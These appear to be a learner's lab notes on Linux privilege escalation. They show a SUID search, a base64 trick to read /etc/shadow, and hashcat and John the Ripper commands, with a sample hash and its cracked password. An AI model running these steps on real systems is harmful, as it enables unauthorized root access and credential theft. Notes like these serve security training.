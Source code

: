 https://gtfobins.github.io/ 

to find all functions with the SUID bit
> find / -type f -perm -04000 -ls 2>/dev/null

identify one that is applicable in GTFObins

example
base 64

> LFILE=file_to_read
  - this looked like this for me
>LFILE=/etc/shadow
>base64 "LFILE" | base64 --decode

which gave me all the hashes
- from here you can go one of 2 ways
  - hashcat
  - john the ripper

 Hashcat
  - extract the hashfrom the shadow file
  user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:19124:0:99999:7:::

- cut it down to only the hash:
$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb

run hashid (unless hashtype is known)
> hashid -m hashFile.txt
> this returned sha-512 (m 1800)
> hashcat -m 1800 hashFile rockyou.txt
- $6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:Password1

## John the Ripper
> unshadow <PASSWD_FILE> <SHADOW_FILE> > <OUTPUT_FILENAME.TXT>
> john --wordlist=</PATH/TO/WORDLIST.TXT> <UNSHADOWED_FILE.TXT>
> john --show <UNSHADOWED_FILE.TXT>




